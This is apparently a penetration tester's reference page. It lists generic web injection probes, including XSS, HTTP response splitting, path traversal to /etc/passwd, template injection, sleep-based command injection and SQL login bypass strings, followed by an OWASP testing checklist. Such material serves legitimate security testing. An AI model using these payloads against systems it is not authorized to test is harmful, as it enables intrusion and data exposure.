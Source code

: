 ```
INJECTX'>"><ScRiPt>confirm(1)<ScRiPt>
"></textarea><img/onload=alert(1)>' -- // INJECTX <!-- 
"><img/onload=alert(1)>' -- // INJECTX <!-- 
INJECTX'"><h1>X<!-- 
INJECTX"><h1>X
en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
../../../../../../../../../../../etc/passwd%00
{{4+4}}
sleep 5; sleep 5 || sleep 5 | sleep 5 & sleep 5 && sleep 5
admin" or "1"="1"-- 
admin' or '1'='1'-- 
INJECTX%0a%0d%00
```




### OWASP TESTING CHECKLIST:
-----------------------------------------------------------------------
- Spiders, Robots and Crawlers	IG-001
- Search Engine Discovery/Reconnaissance	IG-002
- Identify application entry points	IG-003
- Testing for Web Application Fingerprint	IG-004
- Application Discovery	IG-005
- Analysis of Error Codes	IG-006
- SSL/TLS Testing (SSL Version, Algorithms, Key length, Digital Cert. Validity) - SSL Weakness	CM‐001
- DB Listener Testing - DB Listener weak	CM‐002
- Infrastructure Configuration Management Testing - Infrastructure Configuration management weakness	CM‐003
- Application Configuration Management Testing - Application Configuration management weakness	CM‐004
- Testing for File Extensions Handling - File extensions handling	CM‐005
- Old, backup and unreferenced files - Old, backup and unreferenced files	CM‐006
- Infrastructure and Application Admin Interfaces - Access to Admin interfaces	CM‐007
- Testing for HTTP Methods and XST - HTTP Methods enabled, XST permitted, HTTP Verb	CM‐008
- Credentials transport over an encrypted channel - Credentials transport over an encrypted channel	AT-001
- Testing for user enumeration - User enumeration	AT-002
- Testing for Guessable (Dictionary) User Account - Guessable user account	AT-003
- Brute Force Testing - Credentials Brute forcing	AT-004
- Testing for bypassing authentication schema - Bypassing authentication schema	AT-005
- Testing for vulnerable remember password and pwd reset - Vulnerable remember password, weak pwd reset	AT-006
- Testing for Logout and Browser Cache Management - - Logout function not properly implemented, browser cache weakness	AT-007
- Testing for CAPTCHA - Weak Captcha implementation	AT-008
- Testing Multiple Factors Authentication - Weak Multiple Factors Authentication	AT-009
- Testing for Race Conditions - Race Conditions vulnerability	AT-010
- Testing for Session Management Schema - Bypassing Session Management Schema, Weak Session Token	SM-001
- Testing for Cookies attributes - Cookies are set not ‘HTTP Only’, ‘Secure’, and no time validity	SM-002
- Testing for Session Fixation - Session Fixation	SM-003
- Testing for Exposed Session Variables - Exposed sensitive session variables	SM-004
- Testing for CSRF - CSRF	SM-005
- Testing for Path Traversal - Path Traversal	AZ-001
- Testing for bypassing authorization schema - Bypassing authorization schema	AZ-002
- Testing for Privilege Escalation - Privilege Escalation	AZ-003
- Testing for Business Logic - Bypassable business logic	BL-001
- Testing for Reflected Cross Site Scripting - Reflected XSS	DV-001